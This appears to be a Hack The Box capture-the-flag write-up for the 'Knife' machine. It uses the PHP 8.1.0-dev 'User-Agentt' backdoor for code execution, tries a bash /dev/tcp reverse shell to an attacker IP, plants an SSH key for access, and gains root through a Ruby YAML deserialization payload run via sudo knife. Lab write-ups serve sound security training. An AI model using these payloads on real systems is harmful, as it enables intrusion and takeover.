

# HTB Knife
## OS: Linux
## Difficulty: Easy

### Enumeration:
I'll start with a port scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.59.37
```

```
PORT   STATE SERVICE VERSION                                                                                                                                                                                                                
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)                                                                                                                                                           
| ssh-hostkey:                                                                                                                                                                                                                              
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)                                                                                                                                                                              
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)                                                                                                                                                                             
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)                                                                                                                                                                           
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))                                                                                                                                                                                         
|_http-title:  Emergent Medical Idea                                                                                                                                                                                                        
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                                                                                                                                                
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel              
```

I'll take  a look at the web page.


Using whatweb we get the following:
```bash
whatweb http://10.129.59.37

http://10.129.59.37 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.59.37], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

### Foothold
Using searhcsploit I found an RCE for php 8.1.0-dev.

```bash
search 8.1.0-dev

PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution  php/webapps/49933.py
```

Looking at the script we can see the use of header User-Agentt for command execution.

I'll start BurpSuite and try it.


We can see it works. Now let's get a shell.

I'll start listening on port 6666.
```bash
rlwrap nc -lnvp 6666
```

Payload:
```bash
bash -i >& /dev/tcp/10.10.14.53/6666 0>&1
```



This does not work.

But we have access to to the .ssh folder.I'll add my key to the authorized_keys and use ssh to connect to the server.

```payload
echo <key.pub> >home/james/.ssh/authorized_keys;chmod 600 home/james/.ssh/authorized_keys
```

Let's connect via ssh.
```bash
ssh james@10.129.59.37 -i mykey
```


It worked! We can get the user flag.

```bash
cat ~/user.txt
```

### We got the user flag!

### Pirvilege Escalation:

Let's see if we can run anything as root.
```bash
sudo -l


User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Let's take a look at the script. For this I'm gonna transfer the file to my machine.

Host:
```bash
nc -lvp 6666 > knife
```

Target:
```bash
nc 10.10.14.53 6666 < /usr/bin/knife
```

After inspecting the file I tried running it on the target and something stood out to me. It loads a lot of libraries and not all of them are upt to date.

```bash
** YAML COMMANDS **
knife yaml convert YAML_FILENAME [RUBY_FILENAME]
```

Searching for privilege escalation via ruby yaml I found this: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md

I made a yaml file with the following content:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/sh -i
         method_id: :resolve
```

And used it with the yaml convert function of the script.

```bash
sudo /usr/bin/knife yaml convert dependencies.yml
```


And it worked!

Let's get the root flag.

```bash
cat /root/root.txt
```

### We got the root flag!